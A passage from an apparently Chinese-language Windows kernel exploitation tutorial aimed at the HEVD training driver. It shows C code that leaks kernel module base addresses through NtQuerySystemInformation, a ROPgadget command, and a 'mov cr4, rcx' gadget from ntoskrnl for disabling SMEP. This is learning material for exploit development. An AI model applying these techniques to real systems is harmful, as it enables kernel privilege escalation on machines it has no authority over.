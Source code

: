 ```bash
        return 0;
    }

    //starting quering
    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation, pModuleInfo, len, &len);

    if (status != (NTSTATUS)0x0) {
        printf("[!] [ulGetKernelBase] NtQuerySystemInformation failed with error code 0x%X\n", status);
        return 0;
    }
    for (unsigned int i = 0; i < pModuleInfo->ModulesCount; i++) {
        kernelImage = (PCHAR)pModuleInfo->Modules[i].Name;
        if (strstr(kernelImage, ModuleName)) {
            kernelImageBase = pModuleInfo->Modules[i].ImageBaseAddress;
            printf("[*] [ulGetKernelBase]  Mod name %s ", kernelImage);
#ifdef _WIN64
            printf(" Base Addr 0x%llx\r\n", kernelImageBase);
#else
            printf(" Base Addr 0x%X\r\n", kernelImageBase);
#endif
            return (unsigned long long)kernelImageBase;
        }
    }
    return 0;
}
```

### B. 找到对应汇编

可以使用 CTF 常用工具`ROPGadget`，他支持`PE`格式（因为用的 Capstone 反汇编引擎）

```bash
ROPgadget --binary ./HEVD.sys --only "pop|ret"
```

试试`ntoskrl.exe`的

[![](assets/1706090578-06595586e3a2621883c7e451d115b742.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131934-d414ea16-b8e5-1.png)

```bash
0x000000014039eb47 : mov cr4, rcx ; ret
```

得到基地址是`0x39eb47`，另外一个 gadget 同理
